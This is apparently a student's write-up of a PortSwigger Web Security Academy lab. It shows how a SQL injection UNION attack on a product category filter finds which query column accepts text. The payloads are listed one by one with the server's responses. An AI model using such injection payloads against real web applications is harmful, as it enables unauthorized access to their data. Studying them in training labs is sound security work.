 ```yaml
---
title: 'Lab: SQL injection UNION attack, finding a column containing text'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: SQL injection UNION attack, finding a column containing text
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. 
* Hint: The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 

## Exp
1. Determine how many columns it has
You can use the technique from previous question.
Payload: `?category=' UNION SELECT NULL,NULL,NULL--`
2. Start to guess which column contains text
For example: 
`?category=Accessories' UNION (SELECT 'a', NULL, NULL)--` $\to$ Internal Server Error
`?category=Accessories' UNION (SELECT NULL, 'a', NULL)--` $\to$ <font color="FF0000">No Error</font>
`?category=Accessories' UNION (SELECT NULL, NULL, 'a')--` $\to$ Internal Server Error

    **Then we can consider which column is text-based string**

    Payload: `?category=Accessories' UNION (SELECT NULL, 'DoimDt', NULL)--`
    :::spoiler Success Screenshot
    ![](https://imgur.com/LtSoc2E.png)
    :::

## Reference